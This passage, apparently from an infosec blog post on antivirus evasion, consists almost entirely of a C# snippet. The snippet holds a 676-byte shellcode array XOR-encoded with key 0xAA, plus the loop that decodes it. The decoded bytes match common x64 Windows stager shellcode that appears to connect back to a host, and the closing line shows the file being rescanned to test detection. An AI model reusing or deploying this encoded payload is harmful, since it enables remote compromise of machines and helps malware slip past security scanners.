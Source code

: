 ```csharp
            byte[] buf = new byte[676] { 0x56, 0xe2, 0x29, 0x4e, 0x5a, 0x42, 0x66, 0xaa, 0xaa, 0xaa, 0xeb, 0xfb, 0xeb, 0xfa, 0xf8, 0xfb, 0xfc, 0xe2, 0x9b, 0x78, 0xcf, 0xe2, 0x21, 0xf8, 0xca, 0xe2, 0x21, 0xf8, 0xb2, 0xe2, 0x21, 0xf8, 0x8a, 0xe7, 0x9b, 0x63, 0xe2, 0x21, 0xd8, 0xfa, 0xe2, 0xa5, 0x1d, 0xe0, 0xe0, 0xe2, 0x9b, 0x6a, 0x06, 0x96, 0xcb, 0xd6, 0xa8, 0x86, 0x8a, 0xeb, 0x6b, 0x63, 0xa7, 0xeb, 0xab, 0x6b, 0x48, 0x47, 0xf8, 0xeb, 0xfb, 0xe2, 0x21, 0xf8, 0x8a, 0x21, 0xe8, 0x96, 0xe2, 0xab, 0x7a, 0xcc, 0x2b, 0xd2, 0xb2, 0xa1, 0xa8, 0xa5, 0x2f, 0xd8, 0xaa, 0xaa, 0xaa, 0x21, 0x2a, 0x22, 0xaa, 0xaa, 0xaa, 0xe2, 0x2f, 0x6a, 0xde, 0xcd, 0xe2, 0xab, 0x7a, 0x21, 0xe2, 0xb2, 0xfa, 0xee, 0x21, 0xea, 0x8a, 0xe3, 0xab, 0x7a, 0x49, 0xfc, 0xe2, 0x55, 0x63, 0xe7, 0x9b, 0x63, 0xeb, 0x21, 0x9e, 0x22, 0xe2, 0xab, 0x7c, 0xe2, 0x9b, 0x6a, 0xeb, 0x6b, 0x63, 0xa7, 0x06, 0xeb, 0xab, 0x6b, 0x92, 0x4a, 0xdf, 0x5b, 0xe6, 0xa9, 0xe6, 0x8e, 0xa2, 0xef, 0x93, 0x7b, 0xdf, 0x72, 0xf2, 0xee, 0x21, 0xea, 0x8e, 0xe3, 0xab, 0x7a, 0xcc, 0xeb, 0x21, 0xa6, 0xe2, 0xee, 0x21, 0xea, 0xb6, 0xe3, 0xab, 0x7a, 0xeb, 0x21, 0xae, 0x22, 0xeb, 0xf2, 0xe2, 0xab, 0x7a, 0xeb, 0xf2, 0xf4, 0xf3, 0xf0, 0xeb, 0xf2, 0xeb, 0xf3, 0xeb, 0xf0, 0xe2, 0x29, 0x46, 0x8a, 0xeb, 0xf8, 0x55, 0x4a, 0xf2, 0xeb, 0xf3, 0xf0, 0xe2, 0x21, 0xb8, 0x43, 0xe1, 0x55, 0x55, 0x55, 0xf7, 0xe2, 0x9b, 0x71, 0xf9, 0xe3, 0x14, 0xdd, 0xc3, 0xc4, 0xc3, 0xc4, 0xcf, 0xde, 0xaa, 0xeb, 0xfc, 0xe2, 0x23, 0x4b, 0xe3, 0x6d, 0x68, 0xe6, 0xdd, 0x8c, 0xad, 0x55, 0x7f, 0xf9, 0xf9, 0xe2, 0x23, 0x4b, 0xf9, 0xf0, 0xe7, 0x9b, 0x6a, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xe3, 0x10, 0x90, 0xfc, 0xd3, 0x0d, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0x42, 0xa4, 0xaa, 0xaa, 0xaa, 0x9b, 0x93, 0x98, 0x84, 0x9b, 0x9c, 0x92, 0x84, 0x9b, 0x84, 0x98, 0x9a, 0x93, 0xaa, 0xf0, 0xe2, 0x23, 0x6b, 0xe3, 0x6d, 0x6a, 0x11, 0xab, 0xaa, 0xaa, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xc0, 0xa9, 0xf9, 0xe3, 0x10, 0xfd, 0x23, 0x35, 0x6c, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0x42, 0xd0, 0xaa, 0xaa, 0xaa, 0x85, 0xf9, 0xfd, 0xfb, 0xdf, 0xc9, 0xdb, 0xf3, 0x9f, 0xc8, 0x9a, 0xc5, 0xc7, 0xf9, 0xd3, 0xce, 0xe0, 0xfb, 0x9b, 0xeb, 0xda, 0xce, 0xcd, 0xed, 0xf9, 0xdd, 0xf2, 0xc3, 0xeb, 0xc8, 0xfa, 0xfa, 0xc0, 0x99, 0xe2, 0x98, 0x98, 0x9d, 0xe2, 0xc2, 0xe3, 0xfd, 0xeb, 0xf0, 0xff, 0xfd, 0xcc, 0xc3, 0xc5, 0xe8, 0x9c, 0xec, 0xde, 0xd3, 0xed, 0xdf, 0xe1, 0x87, 0xfb, 0xc4, 0xf2, 0xe4, 0xee, 0xee, 0xc3, 0xfd, 0xd3, 0x9f, 0xcb, 0x92, 0xdc, 0xf8, 0xe5, 0xe2, 0xde, 0xfd, 0xef, 0xce, 0xc8, 0xf2, 0xf5, 0xdd, 0xef, 0xc9, 0xfe, 0xfa, 0xe9, 0xe7, 0xf9, 0xf3, 0xc3, 0x9a, 0xec, 0xc8, 0xf2, 0xed, 0xf9, 0xfa, 0xd8, 0xcf, 0xc0, 0xfa, 0xe1, 0xf8, 0x9f, 0xdf, 0xe4, 0xf5, 0xe8, 0xfd, 0xfb, 0xf3, 0x98, 0xdc, 0xc5, 0xd0, 0x98, 0xfe, 0xfd, 0xe1, 0xd2, 0xaa, 0xe2, 0x23, 0x6b, 0xf9, 0xf0, 0xeb, 0xf2, 0xe7, 0x9b, 0x63, 0xf9, 0xe2, 0x12, 0xaa, 0x98, 0x02, 0x2e, 0xaa, 0xaa, 0xaa, 0xaa, 0xfa, 0xf9, 0xf9, 0xe3, 0x6d, 0x68, 0x41, 0xff, 0x84, 0x91, 0x55, 0x7f, 0xe2, 0x23, 0x6c, 0xc0, 0xa0, 0xf5, 0xe2, 0x23, 0x5b, 0xc0, 0xb5, 0xf0, 0xf8, 0xc2, 0x2a, 0x99, 0xaa, 0xaa, 0xe3, 0x23, 0x4a, 0xc0, 0xae, 0xeb, 0xf3, 0xe3, 0x10, 0xdf, 0xec, 0x34, 0x2c, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe7, 0x9b, 0x6a, 0xf9, 0xf0, 0xe2, 0x23, 0x5b, 0xe7, 0x9b, 0x63, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xe3, 0x6d, 0x68, 0x87, 0xac, 0xb2, 0xd1, 0x55, 0x7f, 0x2f, 0x6a, 0xdf, 0xb5, 0xe2, 0x6d, 0x6b, 0x22, 0xb9, 0xaa, 0xaa, 0xe3, 0x10, 0xee, 0x5a, 0x9f, 0x4a, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x55, 0x65, 0xde, 0xa8, 0x41, 0x00, 0x42, 0xff, 0xaa, 0xaa, 0xaa, 0xf9, 0xf3, 0xc0, 0xea, 0xf0, 0xe3, 0x23, 0x7b, 0x6b, 0x48, 0xba, 0xe3, 0x6d, 0x6a, 0xaa, 0xba, 0xaa, 0xaa, 0xe3, 0x10, 0xf2, 0x0e, 0xf9, 0x4f, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x39, 0xf9, 0xf9, 0xe2, 0x23, 0x4d, 0xe2, 0x23, 0x5b, 0xe2, 0x23, 0x70, 0xe3, 0x6d, 0x6a, 0xaa, 0x8a, 0xaa, 0xaa, 0xe3, 0x23, 0x53, 0xe3, 0x10, 0xb8, 0x3c, 0x23, 0x48, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x29, 0x6e, 0x8a, 0x2f, 0x6a, 0xde, 0x18, 0xcc, 0x21, 0xad, 0xe2, 0xab, 0x69, 0x2f, 0x6a, 0xdf, 0x78, 0xf2, 0x69, 0xf2, 0xc0, 0xaa, 0xf3, 0x11, 0x4a, 0xb7, 0x80, 0xa0, 0xeb, 0x23, 0x70, 0x55, 0x7f };
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] ^ 0xAA) & 0xFF);
            } 
```

Now, to scan the file once again:

![](http://loganelliottinfosec.com/wp-content/uploads/2023/10/custom-xor-results-743x1024.png)
